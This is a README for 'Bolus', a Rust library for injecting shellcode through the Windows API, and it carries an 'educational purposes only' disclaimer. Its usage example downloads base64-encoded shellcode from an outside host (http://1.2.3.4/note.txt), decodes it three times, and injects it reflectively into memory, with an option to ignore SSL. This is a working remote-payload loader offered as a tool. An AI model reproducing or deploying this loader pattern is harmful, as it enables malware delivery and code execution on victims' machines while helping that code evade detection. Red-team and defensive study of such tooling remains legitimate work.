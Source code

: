# Bolus

Library for shellcode injection using the Windows API.

**WARNING: This code is for educational purposes only. The creator strongly urges you to only use this code in authorized contexts. Don't do crimes.**

## Usage


The following is an example implementation, which can be observed in [RustyNeedle](https://github.com/mttaggart/RustyNeedle):

```rust
use bolus::{
    inject,
    load,
    injectors::{
        InjectionType,
        InjectorType
    }
};

/// The URL where shellcode will be downloaded from
const URL: &str = "http://1.2.3.4/note.txt";
/// The # of base64 iterations to decode
const B64_ITERATIONS: usize = 3;
/// `IgnoreSSL` switch. You know what this does.
const IGNORE_SSL: bool = false;

fn main() -> Result<(), String> {
    let injector = load(
        InjectorType::Base64Url((
            URL.to_string(),
            IGNORE_SSL,
            B64_ITERATIONS
        ))
    )?;
    inject(
        injector,
        InjectionType::Reflect,
        true
    )
}
```

## Documentation

Full docs at [docs.rs](https://docs.rs/bolus/latest/bolus/)
